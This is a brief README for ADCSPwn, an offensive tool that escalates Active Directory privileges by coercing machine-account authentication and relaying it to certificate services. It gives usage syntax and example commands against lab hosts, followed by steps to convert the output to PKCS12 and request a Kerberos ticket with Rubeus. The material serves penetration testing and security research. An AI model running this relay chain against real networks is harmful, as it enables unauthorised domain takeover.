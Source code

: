 # ADCSPwn

A tool to escalate privileges in an active directory network by coercing authenticate from machine accounts and relaying to certificate services.

## Usage

Run `ADCSPwn` on your target network.

```
adcspwn.exe --adcs <cs server> --port [local port] --remote [computer]

Required arguments:
adcs            -       This is the address of the AD CS server which authentication will be relayed to.

Optional arguments:
port            -       The port ADCSPwn will listen on.
remote          -       Remote machine to trigger authentication from.

Example usage:
adcspwn.exe --adcs cs.pwnlab.local
adcspwn.exe --adcs cs.pwnlab.local --port 9001
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --port 9001
```

Convert the output into the PKCS12 certificate format using `bundle2pkcs12`

```
python3 bundle2pkcs12.py <output blob>
```

Request a TGT with the PKCS12 certificate using Rubeus.